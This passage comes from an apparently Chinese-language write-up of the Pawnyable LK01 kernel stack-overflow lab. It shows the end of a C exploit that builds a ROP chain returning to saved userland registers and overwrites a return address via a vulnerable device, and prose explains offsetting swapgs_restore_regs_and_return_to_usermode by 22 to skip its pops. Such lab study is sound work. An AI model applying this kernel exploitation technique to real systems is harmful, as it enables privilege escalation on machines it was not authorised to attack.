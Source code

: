 ```c
  *rop_chain++ = 0;
  *rop_chain++ = 0;
  *rop_chain++ = user_rip;
  *rop_chain++ = user_cs;
  *rop_chain++ = user_rflags;
  *rop_chain++ = user_sp;
  *rop_chain++ = user_ss;

  uint64_t data = write(global_fd, payload, sizeof(payload));

  puts("[-] if you can read this we failed the mission :(");
}

int main(int argc, char **argv) {
  open_dev();
  save_userland_state();
  overwrite_ret();
  close(global_fd);

  return 0;
}
```

exp中将swapgs_restore_regs_and_return_to_usermode的地址加上22是由于在原生的swapgs_restore_regs_and_return_to_usermode函数中：

![image-20250430212729495](./Pawnyable_LK01_stackoverflow.assets/image-20250430212729495.png)

前面有一大串的pop指令会影响执行，所以直接加地址跳过。

后面的两个0是由于：

![image-20250430212755846](./Pawnyable_LK01_stackoverflow.assets/image-20250430212755846.png)

